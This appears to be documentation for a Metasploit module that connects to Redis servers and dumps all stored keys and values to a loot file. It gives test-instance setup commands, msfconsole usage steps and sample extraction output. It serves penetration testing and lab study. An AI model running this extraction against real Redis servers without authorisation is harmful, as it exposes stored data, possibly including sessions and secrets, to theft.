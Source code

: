 ## Vulnerable Application

This module attaches to a Redis instance and extracts all stored keys and their associated data. If multiple databases are present the module will iterate through each.

This module works on Redis versions 2.8.0 and later, and has been tested on versions through 6.0.8.

To prepare a test instance of Redis,first install Redis v2.8.0 or greater. This can be done in docker with:

`docker run -d -p 6379:6379 --name redis redis`

Next, add some data to the database:

`echo 'set key1 value1' | nc 127.0.0.1 6379 > /dev/null` (MacOS, may differ on Linux)

Alternately, to run docker with a password:

```bash
docker run -d -p 6379:6379 --name redis redis --requirepass abcde
echo 'auth abcde \n set key2 value2' | nc 127.0.0.1 6379 > /dev/null
``` 


## Verification Steps

1. Install Redis and add data as described above.
1. Start `msfconsole`
1. Do: `use auxiliary/gather/redis_extractor`
1. Do: `set rhosts [ip.of.redis.app]` 
1. Do: `set PASSWORD [redis_password]` (optional)
1. Do: `check` (optional)
1. You will receive information about the Redis instalce.
1. Do: `run`
1. You will receive a screendump of the cached keys and contet.
1. A CSV file with keys and content will be saved in your loot directory.

## Options

### PASSWORD

The password for the redis instance. This value will be ignored for instances with no password required.

### LIMIT_COUNT

Stop after retrieving this number of keys, per datastore. Note that one redis instance may have more than one datastore. This modules also pulls values down in batches, so it may go slightly over this limit.

## Scenarios

### Check 

```
msf6 > use auxiliary/gather/redis_extractor
msf6 auxiliary(gather/redis_extractor) > set rhosts 172.22.12.168
rhosts => 172.22.12.168
msf6 auxiliary(gather/redis_extractor) > check

[+] 172.22.12.168:6379    - Connected to Redis version 6.0.8
[*] 172.22.12.168:6379    - OS is Linux 5.4.39-linuxkit x86_64
[*] 172.22.12.168:6379 - The target appears to be vulnerable.
msf6 auxiliary(gather/redis_extractor) >
```

### Run

```
msf6 > use auxiliary/gather/redis_extractor
msf6 auxiliary(gather/redis_extractor) > set rhosts 172.22.12.168
rhosts => 172.22.12.168
msf6 auxiliary(gather/redis_extractor) > run

[+] 172.22.12.168:6379    - Connected to Redis version 6.0.8
[*] 172.22.12.168:6379    - Extracting about 1 keys from database 0

Data from 172.22.12.168:6379    database 0
==========================================

 Key   Value
 ---   -----
 key1  value1

[+] 172.22.12.168:6379    - Redis data stored at /root/.msf4/loot/20201113203708_default_172.22.12.168_redis.dump_db0_836292.txt
[*] 172.22.12.168:6379    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(gather/redis_extractor) >
```
